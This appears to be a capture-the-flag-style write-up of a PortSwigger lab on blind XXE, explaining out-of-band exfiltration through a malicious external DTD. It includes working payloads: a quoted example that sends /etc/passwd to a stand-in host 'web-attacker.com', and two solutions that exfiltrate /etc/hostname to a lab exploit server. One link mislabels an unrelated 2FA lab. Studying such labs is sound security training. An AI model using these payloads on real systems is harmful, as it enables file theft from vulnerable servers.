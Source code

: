 # Exploiting blind XXE to exfiltrate data using a malicious external DTD

[Lab in PortSwigger](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration)

## Definition
Detecting a blind XXE vulnerability via out-of-band techniques is all very well, but it doesn't actually demonstrate how the vulnerability could be exploited. What an attacker really wants to achieve is to exfiltrate sensitive data. This can be achieved via a blind XXE vulnerability, but it involves the attacker hosting a malicious DTD on a system that they control, and then invoking the external DTD from within the in-band XXE payload.

An example of a malicious DTD to exfiltrate the contents of the /etc/passwd file is as follows:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

This DTD carries out the following steps:

- Defines an XML parameter entity called file, containing the contents of the /etc/passwd file.
- Defines an XML parameter entity called eval, containing a dynamic declaration of another XML parameter entity called exfiltrate. The exfiltrate entity will be evaluated by making an HTTP request to the attacker's web server containing the value of the file entity within the URL query string.
- Uses the eval entity, which causes the dynamic declaration of the exfiltrate entity to be performed.
- Uses the exfiltrate entity, so that its value is evaluated by requesting the specified URL.

The attacker must then host the malicious DTD on a system that they control, normally by loading it onto their own webserver. For example, the attacker might serve the malicious DTD at the following URL: `http://web-attacker.com/malicious.dtd`

Finally, the attacker must submit the following XXE payload to the vulnerable application:
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

This XXE payload declares an XML parameter entity called xxe and then uses the entity within the DTD. This will cause the XML parser to fetch the external DTD from the attacker's server and interpret it inline. The steps defined within the malicious DTD are then executed, and the /etc/passwd file is transmitted to the attacker's server. 

## Notes
This lab has a `Check stock` feature that parses XML input but does not display the result.

To solve the lab, exfiltrate the contents of the /etc/hostname file. 

**Remote Host**  
- [Portsweeger lab with an exploit server](https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-simple-bypass)
- [Remote URL](https://exploit-0a35000204f00ae7c0716b4e017f00d0.web-security-academy.net/exploit)
- [Fake burpcollaborator URL](https://abc1234def.burpcollaborator.net)

**Original Request** 
```http
POST /product/stock HTTP/1.1
...

<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>4</productId><storeId>2</storeId></stockCheck>
```
## Option 1
Declaring and executing the malicious entity from the `external DTD`, and importing it from the `internal DTD` of the main XML.

**Malicious External DTD**
```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % wrapper "<!ENTITY &#x25; pwn SYSTEM 'https://exploit-0a35000204f00ae7c0716b4e017f00d0.web-security-academy.net/exploit/?x=%file;'>">
%wrapper;
%pwn;
```

**Malicious Payload**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE vuln [<!ENTITY % xxe SYSTEM
"https://exploit-0a35000204f00ae7c0716b4e017f00d0.web-security-academy.net/exploit"> %xxe;]>
<stockCheck>
    <productId>4</productId>
    <storeId>2</storeId>
</stockCheck>
```

# Option 2
Declaring the malicious entity in the `external DTD` and calling it from the `internal DTD` of the main XML.

**Malicious External DTD**
```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % wrapper "<!ENTITY &#x25; pwn SYSTEM 'https://exploit-0a35000204f00ae7c0716b4e017f00d0.web-security-academy.net/exploit/?x=%file;'>">
%wrapper;
```

**Malicious Payload**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE vuln [<!ENTITY % xxe SYSTEM
"https://exploit-0a35000204f00ae7c0716b4e017f00d0.web-security-academy.net/exploit"> %xxe %pwn;]>
<stockCheck>
    <productId>4</productId>
    <storeId>2</storeId>
</stockCheck>
```

**Hostname**
`6b5271d39e6b`

**References**
[XML External Entities (XXE) Explained](https://www.youtube.com/watch?v=gjm6VHZa_8s)

[List of XML and HTML character entity references](https://en.wikipedia.org/wiki/List_of_XML_and_HTML_character_entity_references)

## Key Words
> xml, xxe, blind, entities, exfiltrate, remote server, external dtd, pwnfunction